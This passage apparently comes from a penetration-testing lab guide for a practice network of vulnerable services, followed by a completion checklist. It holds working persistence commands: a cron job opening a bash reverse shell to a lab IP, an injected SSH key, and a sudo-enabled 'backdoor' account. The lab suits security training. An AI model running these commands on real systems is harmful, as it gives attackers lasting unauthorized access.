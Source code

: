 ### Persistence
```bash
# Add SSH key
ssh-keygen -t rsa
echo "YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys

# Cron job
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/172.16.0.11/4444 0>&1'" | crontab -

# Create user
useradd -m -s /bin/bash backdoor
echo "backdoor:password" | chpasswd
usermod -aG sudo backdoor
```

---

## 📝 Lab Completion Checklist

### Network Discovery
- [ ] Found all 14 hosts
- [ ] Identified all services on each target
- [ ] Documented open ports and versions

### Service Enumeration
- [ ] Accessed SSH server
- [ ] Exploited DVWA vulnerabilities
- [ ] Connected to FTP anonymously
- [ ] Accessed MySQL database
- [ ] Enumerated SMB shares
- [ ] Accessed Tomcat manager
- [ ] Connected to Redis
- [ ] Accessed PostgreSQL
- [ ] Scanned WordPress
- [ ] Explored WebGoat

### Exploitation
- [ ] Gained shell on at least 5 targets
- [ ] Used both manual and automated techniques
- [ ] Documented exploitation methods

### Post-Exploitation
- [ ] Escalated privileges on at least 2 systems
- [ ] Established persistence
- [ ] Extracted sensitive data

---

## 💡 Tips for Success
